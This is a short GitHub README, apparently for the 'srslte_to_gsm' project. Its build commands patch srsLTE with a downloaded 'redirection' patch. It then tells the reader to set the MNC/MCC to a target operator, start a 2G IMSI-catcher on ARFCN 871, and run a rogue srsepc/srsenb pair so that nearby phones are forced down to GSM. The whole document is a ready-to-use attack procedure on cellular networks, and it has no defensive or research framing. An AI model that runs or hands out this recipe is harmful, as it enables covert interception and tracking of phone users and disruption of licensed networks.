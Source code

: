 # srslte_to_gsm
On ubuntu 20.04+
```bash
sudo apt-get install build-essential cmake libfftw3-dev libmbedtls-dev libboost-program-options-dev libconfig++-dev libsctp-dev
git clone https://github.com/srslte/srsLTE
cd srsLTE
wget https://raw.githubusercontent.com/bbaranoff/srslte_to_gsm/main/redirection_srslte_gsm.patch
patch -p1 < redirection_srslte_gsm.patch
mkdir build
cd build
cmake ..
make -j$(nproc)
sudo make install
sudo ldconfig
sudo  ./srsran_install_configs.sh user
sudo nano /root/.config/srsran/enb.conf
sudo nano /root/.config/srsran/epc.conf
```
Set mnc mcc as target
Set a 2G IMSI-Catcher on arfcn 871 with mnc mcc as target
1° Terminal
```
sudo srsepc
```
2° Terminal
```
sudo srsenb
```
Wait and you are done !

N.B.: Not always working !!
